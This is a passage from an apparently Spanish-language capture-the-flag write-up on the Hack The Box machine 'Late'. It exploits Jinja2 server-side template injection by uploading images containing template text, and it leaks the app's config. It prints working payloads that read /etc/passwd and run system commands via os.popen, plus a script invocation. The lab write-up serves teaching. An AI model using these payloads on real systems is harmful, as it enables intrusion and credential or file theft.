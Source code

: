 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463google_notepad_SSTI_7x7.png" style="width: 60%;"/>

Subimos yyyy en la respuesta:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463bash_SSTI_catResults_7x7_DONE.png" style="width: 70%;"/>

**PERFEEECTO**, confirmamos dos vainas!!

1. Tenemos un **Server Side Template Injection** 🤗
2. La plantilla (template) usada es **Jinja2**, así que debemos buscar payloads válidos para ella.

Ya que tenemos claro el proceso para generar la explotación, aproveché la oportunidad y me cree un script con **Python3** para automatizar toooodo esto, tanto la creación de la imagen (con la biblioteca [Pillow](https://pillow.readthedocs.io/en/stable/)) con su texto (es necesario usar una fuente que sus símbolos y números sean bien claros e identificables, yo emplee [Hack](https://www.dafont.com/es/hack.font?text=__%7B%7B123456789O&back=theme)), como la obtención del resultado por pantalla (:

> Acá se los dejo: [sstImage.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/late/sstImage.py)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463bash_SSTI_PY_7x7.png" style="width: 100%;"/>

😏

Mediante un **SSTI** no solo podemos hacer operaciones matemáticas, nop nop nop, podemos filtrar información que usa la APP para su ejecución usando {% raw %}`{{config}}`{% endraw %}:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463bash_SSTI_PY_config.png" style="width: 70%;"/>

Notamos un `Secret Key` (usado para firmar cookies, pero de poco nos sirve en este momento) y otros valores poco relevantes...

## Ejecutamos comandos en el sistema con un SSTI [📌](#ssti-rce) {#ssti-rce}

PEEEEEERO no solo podemos hacer eso, TAMBIEEEEEEN podemos intentar ejecutar código en el sistema remotamente 😲, acá algunos payloads a probar:

* [PayloadAllTheThings - SSTI - Jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2).

Probando líneas llegamos a esta:

{% raw %}
```jinja2
# Esta nos permite leer contenido de archivos en el sistema:
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
# Y estaaaa, ejecutar codigo:
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("id").read() }}
```
{% endraw %}

{% raw %}
```bash
❱ python3 sstImage.py '{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen("id").read()}}'
```
{% endraw %}
